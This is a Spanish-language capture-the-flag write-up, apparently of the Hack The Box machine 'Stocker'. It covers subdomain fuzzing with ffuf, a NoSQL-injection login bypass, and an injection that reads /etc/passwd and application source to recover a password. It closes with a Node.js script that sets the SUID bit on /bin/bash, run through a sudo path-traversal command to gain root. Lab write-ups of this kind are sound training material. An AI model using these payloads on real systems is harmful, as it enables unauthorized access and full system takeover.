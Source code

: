 # StockerWriteup

Realizamos un escaneo con nmap

![imagen](https://github.com/Hamibubu/Writeups/blob/main/StockerWriteup/Pasted%20image%2020230131185621.png?raw=true)

Vemos que esta abierto el puerto 80 y el 22, así que visitamos la página web, al entrar se autodirecciona a "stocker.htb", por lo que agregamos esto a /etc/hosts

Entramos y la página web no tiene nada, analizamos todo y parece segura, pero falta algo, como nos redireccionó, puede haber más subdominios escondidos así que usamos ffuf

![imagen](https://github.com/Hamibubu/Writeups/blob/main/StockerWriteup/Pasted%20image%2020230131190837.png?raw=true)

~~~
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://stocker.htb -H 'Host: FUZZ.stocker.htb' -mc 200,201,302
~~~

Entramos a página "dev.stocker.htb"

Vemos un login

![imagen](https://github.com/Hamibubu/Writeups/blob/main/StockerWriteup/Pasted%20image%2020230131191855.png?raw=true)

Calamos son SQLinjection y vemos que no funciona, calamos con noSQL

Cambiamos el formato a json y ponemos la inyección en json

~~~
{"username": {"$ne": null}, "password": {"$ne": null}}
~~~

![imagen](https://github.com/Hamibubu/Writeups/blob/main/StockerWriteup/Pasted%20image%2020230131192141.png?raw=true)

Y funciona, ahora vemos que hay una serie de productos, agregamos al carro y subimos la peticion

Si injecto texto en el json se queda

![imagen](https://github.com/Hamibubu/Writeups/blob/main/StockerWriteup/Pasted%20image%2020230131192418.png?raw=true)

Inyectamos para que nos de el etc passw, porque parece que con wrappers podemos traer archivos de un carrito

![imagen](https://github.com/Hamibubu/Writeups/blob/main/StockerWriteup/Pasted%20image%2020230131192613.png?raw=true)

Sabemos que hay un user angoose

ahora podemos ver las files que hay en /var/www/dev a ver si hay algo sobre como revisa los logins

Vemos /var/www/dev/index.js y sale

![imagen](https://github.com/Hamibubu/Writeups/blob/main/StockerWriteup/Pasted%20image%2020230131192936.png?raw=true)

Encontramos la contraseña del user

Entramos por ssh y tenemos la flag

Ahora para el root damos sudo -l

![imagen](https://github.com/Hamibubu/Writeups/blob/main/StockerWriteup/Pasted%20image%2020230131193126.png?raw=true)

Se puede ver que el usuario puede ejecutar sudo con node en la carpeta indicada para cualquier archivo js, sin importar lo que siga por la comilla

Ahora con esto creamos un script para que nos regrese una terminal con root

~~~
const { exec } = require("child_process");

exec("chmod u+s /bin/bash", (error, stdout, stderr) => {
    if (error) {
        console.log(`error: ${error.message}`);
        return;
    }
    if (stderr) {
        console.log(`stderr: ${stderr}`);
        return;
    }
    console.log(`stdout: ${stdout}`);
});
~~~

Ahora lo ejecutamos

~~~
sudo node /usr/local/scripts/../../../home/angoose/exploit.js 
~~~

Y con esto tenemos root

![imagen](https://github.com/Hamibubu/Writeups/blob/main/StockerWriteup/Pasted%20image%2020230131193442.png?raw=true)

Listo!
